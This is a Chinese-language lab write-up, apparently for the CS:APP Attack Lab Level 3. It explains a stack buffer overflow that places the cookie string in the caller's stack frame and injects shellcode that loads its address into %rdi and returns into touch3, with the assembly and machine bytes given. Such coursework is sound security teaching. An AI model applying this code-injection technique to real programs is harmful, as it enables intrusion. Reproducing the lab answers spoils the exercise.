 ### Level3

目的为执行touch3，且满足string == cookie（0x59b997fa），注意到cookie的ascii表示为：35 39 62 39 39 37 66 61
代码:

```c
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];     // 注意这里直接
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
//hexmatch汇编代码，注意到这里有三轮压栈，压栈的本质是rsp增长，所以谨慎是否会覆盖我们的字串。
0x000000000040184c <+0>:	push   %r12
0x000000000040184e <+2>:	push   %rbp
0x000000000040184f <+3>:	push   %rbx
//……其他代码

void touch3(char *sval)     //   函数开始地址为：0x4018fa
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
//touch3的汇编代码：注意到这里有进行一轮压栈
0x00000000004018fa <+0>:	push   %rbx
//……其他代码
```

answer：我们将string的ascii形式注入，并调用touch3函数。
- 注意到这里是字符串所以我们不能再直接将cookie的值移动到%rdi，注入代码如下
- 注意到函数压栈可能会破坏getbuf的空间（函数都没有开辟新空间而是直接push）解析：在getbuf返回后rsp加回时，直接调用touch3就会使得部分我们的字串被覆盖。

所以我们直接放在test的栈帧中（超过getbuf的返回地址即test的栈帧了）
- 获取到test的$rsp地址为 0x5561dca0，因此我们只需要加上8：0x5561dca8即为我们的字符串首地址
![栈说明](https://upload-images.jianshu.io/upload_images/1433829-4f564d4ccfc8b962.png?imageMogr2/auto-orient/strip|imageView2/2/w/569/format/webp)

```c
    movq    $0x5561dca8, %rdi       // 把0x5561dca8的地址作为cookie的存放点，移动到%rdi
    pushq   $0x4018fa               // 入栈，即之后返回地址为0x4018fa（touch3）
    ret
    //编译后再反汇编得到指令
    0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
    7:	68 fa 18 40 00       	pushq  $0x4018fa
    c:	c3                   	retq
```
